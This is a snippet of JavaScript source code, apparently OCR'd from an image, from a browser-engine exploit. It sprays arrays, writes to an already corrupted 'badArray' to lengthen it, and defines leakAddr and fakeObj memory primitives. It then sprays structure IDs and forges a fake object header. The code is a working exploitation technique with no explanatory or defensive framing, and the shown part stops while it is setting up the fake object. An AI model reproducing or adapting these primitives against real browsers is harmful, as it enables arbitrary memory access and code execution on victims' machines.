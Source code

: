 ```

// read address from this array
sprayedArrays[0] = arrayWithDouble.slice();
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice();

// helper arrays to do float and integer conversions

let postTrigger = `
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
}
print("[+] Spraying structure IDs")
// now predict structure id
var sprayedStructureIDs = []

for(let x = 0; x < 0x400; x++){
  let struct = {a:0x100, b:0x200, c:0x300, d:0x400, e:0x500, f:0x600, g:0x700}
  struct['addNewStructureId'+x] = 0x1337
  sprayedStructureIDs[x] = struct;
}

print("[+] Setting up the fake object")
// set up the fake object
// subtrace 0x1000000000000 to account for JS boxing
var fakeHost = {a:i2f(0x0108200700000100 - 0x1000000000000), b:sprayedStructureIDs[0x80]};

// when we create a fake object the structure ID will be fakeStructureID and the butterfly will point to an object allocated in our sprayed array
```